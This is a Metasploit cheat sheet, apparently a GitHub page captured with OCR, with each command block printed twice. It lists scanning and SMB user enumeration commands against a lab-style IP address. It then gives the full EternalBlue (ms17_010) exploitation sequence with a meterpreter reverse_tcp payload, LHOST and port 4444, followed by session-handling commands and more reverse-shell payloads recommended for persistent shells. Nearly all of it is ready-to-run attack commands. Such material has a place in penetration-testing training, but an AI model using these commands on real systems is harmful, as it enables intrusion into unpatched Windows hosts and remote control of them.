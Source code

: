    

Metasploit

## 🚀 Metasploit Cheat Sheet

### 🔎 Scanning & Enumeration

# Search modules
search portscan
search netbios
search smb

# Use TCP port scanner
use auxiliary/scanner/portscan/tcp
set RHOSTS 10.10.40.235
run

# Use NetBIOS name scanner
use auxiliary/scanner/netbios/nbname
set RHOSTS 10.10.40.235
run

# Enumerate SMB users
use auxiliary/scanner/smb/smb_enumusers
set RHOSTS 10.10.40.235
run

```
# Search modules
search portscan
search netbios
search smb

# Use TCP port scanner
use auxiliary/scanner/portscan/tcp
set RHOSTS 10.10.40.235
run

# Use NetBIOS name scanner
use auxiliary/scanner/netbios/nbname
set RHOSTS 10.10.40.235
run

# Enumerate SMB users
use auxiliary/scanner/smb/smb_enumusers
set RHOSTS 10.10.40.235
run
```

---

### 💥 Exploitation

# Search exploit
search ms17_010

# Use EternalBlue exploit
use exploit/windows/smb/ms17_010_eternalblue

# Show compatible payloads
show payloads

# Select payload
set payload windows/x64/meterpreter/reverse_tcp

# Configure payload options
set LHOST <your IP>
set LPORT 4444

# Exploit
exploit

```
# Search exploit
search ms17_010

# Use EternalBlue exploit
use exploit/windows/smb/ms17_010_eternalblue

# Show compatible payloads
show payloads

# Select payload
set payload windows/x64/meterpreter/reverse_tcp

# Configure payload options
set LHOST <your IP>
set LPORT 4444

# Exploit
exploit
```

---

### 🖥 Session management

# List active sessions
sessions

# Interact with a session
sessions -i 1

# Background a session
CTRL+Z  (then confirm with y)

# Close session
sessions -k 1

```
# List active sessions
sessions

# Interact with a session
sessions -i 1

# Background a session
CTRL+Z  (then confirm with y)

# Close session
sessions -k 1
```

---

## 📝 Notes

✅ Always run `show options` after setting modules to verify required parameters.  
✅ Use `info <module>` to see detailed descriptions, targets, references, and usage notes.  
✅ For persistent shells, prefer `meterpreter` payloads.  
✅ Example common payloads:

- `windows/meterpreter/reverse_tcp`
    
- `generic/shell_reverse_tcp`
    

---